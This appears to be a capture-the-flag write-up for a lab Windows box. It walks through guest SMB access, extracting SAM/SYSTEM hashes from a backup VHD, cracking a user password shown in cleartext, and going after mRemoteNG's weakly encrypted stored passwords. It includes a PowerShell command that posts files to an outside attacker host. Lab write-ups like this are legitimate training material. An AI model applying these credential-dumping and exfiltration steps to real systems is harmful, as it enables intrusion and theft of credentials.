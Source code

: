 ![](./logo.png)

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

# ROOT

Found a non-standard tool called `mRemoteNG`

With some research I've found out that `mRemote` saves files in an incsure way within the `confCons.xml` file.


Running this command below to extract the file

```
powershell Invoke-WebRequest -Uri http://10.10.14.55:8080 -Method Post -Infile *
```

Reading the link [here](http://hackersvanguard.com/mremoteng-insecure-password-storage/) it states that the passwords are only encrypted using a static string!

We can write a quick python script to fuck shit up. 